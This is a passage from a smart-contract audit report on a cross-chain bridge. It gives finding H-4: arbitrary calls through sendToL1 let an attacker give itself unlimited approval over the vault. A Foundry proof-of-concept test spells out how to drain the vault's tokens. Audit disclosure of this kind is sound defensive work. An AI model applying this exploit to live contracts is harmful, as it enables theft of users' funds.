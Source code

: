 Consider redesigning the withdrawal mechanism so that it includes replay protection.

### [H-4] `L1BossBridge::sendToL1` allowing arbitrary calls enables users to call `L1Vault::approveTo` and give themselves infinite allowance of vault funds

The `L1BossBridge` contract includes the `sendToL1` function that, if called with a valid signature by an operator, can execute arbitrary low-level calls to any given target. Because there's no restrictions neither on the target nor the calldata, this call could be used by an attacker to execute sensitive contracts of the bridge. For example, the `L1Vault` contract.

The `L1BossBridge` contract owns the `L1Vault` contract. Therefore, an attacker could submit a call that targets the vault and executes is `approveTo` function, passing an attacker-controlled address to increase its allowance. This would then allow the attacker to completely drain the vault.

It's worth noting that this attack's likelihood depends on the level of sophistication of the off-chain validations implemented by the operators that approve and sign withdrawals. However, we're rating it as a High severity issue because, according to the available documentation, the only validation made by off-chain services is that "the account submitting the withdrawal has first originated a successful deposit in the L1 part of the bridge". As the next PoC shows, such validation is not enough to prevent the attack.

To reproduce, include the following test in the `L1BossBridge.t.sol` file:

```javascript
function testCanCallVaultApproveFromBridgeAndDrainVault() public {
    uint256 vaultInitialBalance = 1000e18;
    deal(address(token), address(vault), vaultInitialBalance);

    // An attacker deposits tokens to L2. We do this under the assumption that the
    // bridge operator needs to see a valid deposit tx to then allow us to request a withdrawal.
    vm.startPrank(attacker);
    vm.expectEmit(address(tokenBridge));
    emit Deposit(address(attacker), address(0), 0);
    tokenBridge.depositTokensToL2(attacker, address(0), 0);

    // Under the assumption that the bridge operator doesn't validate bytes being signed
    bytes memory message = abi.encode(
        address(vault), // target
        0, // value
        abi.encodeCall(L1Vault.approveTo, (address(attacker), type(uint256).max)) // data
    );
    (uint8 v, bytes32 r, bytes32 s) = _signMessage(message, operator.key);

    tokenBridge.sendToL1(v, r, s, message);
    assertEq(token.allowance(address(vault), attacker), type(uint256).max);
    token.transferFrom(address(vault), attacker, token.balanceOf(address(vault)));
}
```

Consider disallowing attacker-controlled external calls to sensitive components of the bridge, such as the `L1Vault` contract.

### [H-5] `CREATE` opcode does not work on zksync era
